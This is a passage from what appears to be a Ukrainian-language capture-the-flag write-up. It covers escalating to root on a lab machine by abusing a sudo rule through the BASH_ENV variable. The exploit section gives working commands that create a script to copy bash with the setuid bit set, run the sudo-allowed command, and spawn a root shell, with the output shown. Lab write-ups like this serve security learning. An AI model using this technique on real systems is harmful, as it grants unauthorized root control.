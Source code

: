     if [ -n «$BASH_ENV» ]; then . «$BASH_ENV»; fi

    але значення змінної PATH не використовується для пошуку імені файлу.

    Як зазначено вище, якщо неінтерактивна оболонка викликається з опцією –login,
    Bash намагається прочитати та виконати команди з файлів запуску оболонки входу.
    ```

### Експлойт

Тепер, щоб отримати рут, нам потрібно створити наш власний shell скрипт, який скопіює bash бінарник з root привілеями, а потім вписати шлях до цього скрипта у змінній `BASH_ENV`:

```bash
hish@environment:~$ cat > /tmp/root.sh << 'EOF'
cp /bin/bash /tmp/root-bash
chmod +s /tmp/root-bash
EOF
hish@environment:~$ chmod +x /tmp/root.sh
hish@environment:~$ sudo BASH_ENV=/tmp/root.sh systeminfo && /tmp/root-bash -p

--- systeminfo output ---

root-bash-5.2# cd /root
root-bash-5.2# whoami
root
root-bash-5.2# cat root.txt
********************************
root-bash-5.2#
```

![image](imgs/root.png)

От і все!
Ми успішно отримали root шел в системі!
